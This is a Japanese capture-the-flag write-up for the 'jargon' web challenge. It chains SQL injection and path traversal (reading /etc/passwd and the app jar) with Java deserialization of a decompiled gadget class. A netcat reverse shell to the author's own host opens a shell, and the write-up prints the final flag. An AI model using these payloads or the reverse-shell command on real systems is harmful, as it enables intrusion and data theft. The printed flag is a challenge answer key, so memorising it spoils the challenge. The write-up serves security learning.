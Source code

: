 # jargon:Web:95pts
This ticketing platform looks like it was built back in the late ’90s, yet somehow it’s still running in 2025. Many of the flaws it carries are relics of an older era of the web. The question is: can you still exploit these outdated systems today, or has old-school web exploitation become harder in the modern landscape?  

Address: [http://34.89.179.154:30926](http://34.89.179.154:30926)  

---

Q1. What is the flag? (Points: 95)  
ctf{sha256}  

# Solution
URLだけが渡されるので、ブラックボックスで解けということらしい。  
アクセスすると、コンタクトフォームのようだ。  
![site1.png](site/site1.png)  
送信すると、チケットが開かれる。  
![site2.png](site/site2.png)  
チケットのURLは`http://34.89.179.154:30926/ticket?id=51`であった。  
`id`に何かあるのではと思い、`'`を入れると以下のエラーが発生した。  
```
Error: [SQLITE_ERROR] SQL error or missing database (unrecognized token: "'")
```
SQLiが自明にあるので、テーブルをダンプしてみるが`tickets`のみであった。  
初めから右上の`Tickets`のリンク先である`http://34.89.179.154:30926/tickets?user=admin`で他人のチケットも閲覧できるため、特に情報量は増えていない。  
次に、チケットに添付したファイルが`http://34.89.179.154:30926/download?id=51`でDLできるらしいが、機能的に壊れている。  
この`id`にも何かあるのではと思い、`../../../../../etc/passwd`を指定するとファイルが降ってきた。  
```bash
$ curl 'http://34.89.179.154:30926/download?id=../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
~~~
```
`/flag`や`/flag.txt`には何もないため、ひとまず実行されているアプリケーションの場所を取得する。  
```bash
$ curl -s 'http://34.89.179.154:30926/download?id=../../../../../proc/self/cmdline' | strings
java
-jar
/app/target/jargon.jar
```
`/app/target/jargon.jar`のようなので、取得して展開する。  
```bash
$ curl -s 'http://34.89.179.154:30926/download?id=../../../../../app/target/jargon.jar' -o jargon.jar
$ unzip jargon.jar -d extracted
Archive:  jargon.jar
~~~
  inflating: extracted/ctf/jargon/App.class
  inflating: extracted/ctf/jargon/Exploit.class
~~~
$ cd extracted/ctf/jargon/
$ wget https://www.benf.org/other/cfr/cfr-0.152.jar -O cfr.jar
~~~
$ java -jar cfr.jar App.class Exploit.class --outputdir decompiled
Processing ctf.jargon.App
Processing ctf.jargon.Exploit
```
`App`と`Exploit`があり、最も気になる`Exploit.java`は以下の通りであった。  
```java
/*
 * Decompiled with CFR 0.152.
 */
package ctf.jargon;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Exploit
implements Serializable {
    private static final long serialVersionUID = 1L;
    private String cmd;

    public Exploit(String cmd) {
        this.cmd = cmd;
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.cmd);
    }

    public String toString() {
        return "Exploit triggered with command: " + this.cmd;
    }
}
```
明らかにガジェットとして使ってくれとばかりに危険なコードである。  
もう一つの`App.java`には以下の個所が含まれるため、細工したオブジェクトをPOSTすると任意コードが実行可能となる。  
```java
~~~
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        String ctype = req.getContentType();
        resp.setContentType("text/html");
        if (ctype != null && ctype.startsWith("application/octet-stream")) {
            try (ObjectInputStream ois = new ObjectInputStream((InputStream)req.getInputStream());){
                Object obj = ois.readObject();
                resp.getWriter().println(this.header("Exploit") + "<div class='bg-red-900 p-6 rounded'><h2 class='text-xl font-bold text-red-300 mb-2'>[!] Deserialization Result</h2><p class='text-gray-200'>" + obj.toString() + "</p></div>" + this.footer());
~~~
```
以下のようなPayloadGen.javaでオブジェクトをシリアライズして利用する。  
リバースシェルは`nc s4t.pw 4444 -e sh`とし、自身の持つサーバ`s4t.pw`で`nc -lvnp 4444`と待ち受ける。  
```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import ctf.jargon.Exploit;

public class PayloadGen {
    public static void main(String[] args) throws Exception {
        Exploit e = new Exploit("nc s4t.pw 4444 -e sh");
        try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("payload.ser"))) {
            oos.writeObject(e);
        }
        System.out.println("wrote payload.ser");
    }
}
```
次のようにPOSTまで行う。  
```bash
$ tree
.
├── PayloadGen.java
└── ctf
    └── jargon
        ├── App.java
        └── Exploit.java

2 directories, 3 files
$ javac PayloadGen.java
$ java PayloadGen
wrote payload.ser
$ curl -X POST http://34.89.179.154:30926/contact -H 'Content-Type: application/octet-stream' --data-binary @payload.ser
<!DOCTYPE html><html lang='en'><head><meta charset='UTF-8'><meta name='viewport' content='width=device-width, initial-scale=1.0'><title>Exploit - Jargon Corp</title><script src='https://cdn.tailwindcss.com'></script></head><body class='bg-gray-900 text-gray-100 font-sans'><nav class='bg-gray-800 shadow mb-8'><div class='max-w-6xl mx-auto px-4 py-4 flex justify-between'><a href='/' class='text-indigo-400 text-xl font-bold'>Jargon Corp</a><div class='space-x-6'><a href='/' class='hover:text-indigo-300'>Home</a><a href='/tickets?user=admin' class='hover:text-indigo-300'>Tickets</a></div></div></nav><div class='max-w-4xl mx-auto px-4'><div class='bg-red-900 p-6 rounded'><h2 class='text-xl font-bold text-red-300 mb-2'>[!] Deserialization Result</h2><p class='text-gray-200'>Exploit triggered with command: nc s4t.pw 4444 -e sh</p></div></div><footer class='mt-12 bg-gray-800 py-4 text-center text-gray-400 text-sm'>© 2025 Jargon Corp — All rights reserved.</footer></body></html>
```
すると自身の持つサーバへ以下のようにシェルが降ってきた。  
```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 34.89.179.154 21525
ls
jargon.db
pom.xml
target
uploads
ls /
app
bin
dev
etc
flag-butlocationhastobesecret-1942e3.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat /flag-butlocationhastobesecret-1942e3.txt

ctf{a303b9d784195c971e0ff1c1c94723bcc26c4a0b714e919d898a26e82d6c843c}
```
`/flag-butlocationhastobesecret-1942e3.txt`にflagが書かれていた(SQLiは何に使うのか……)。  

## ctf{a303b9d784195c971e0ff1c1c94723bcc26c4a0b714e919d898a26e82d6c843c}